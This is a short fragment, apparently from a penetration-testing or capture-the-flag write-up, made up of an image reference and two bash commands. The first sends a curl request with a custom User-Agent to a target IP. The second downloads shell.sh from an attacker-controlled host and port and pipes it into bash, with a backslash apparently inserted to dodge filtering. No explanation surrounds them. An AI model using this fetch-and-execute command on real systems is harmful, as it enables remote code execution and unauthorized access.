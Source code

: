 ```bash
curl "http://$ip" -H "User-Agent: C" -L
```

```bash
curl http://$ip:$port/shell.sh | ba\sh
```
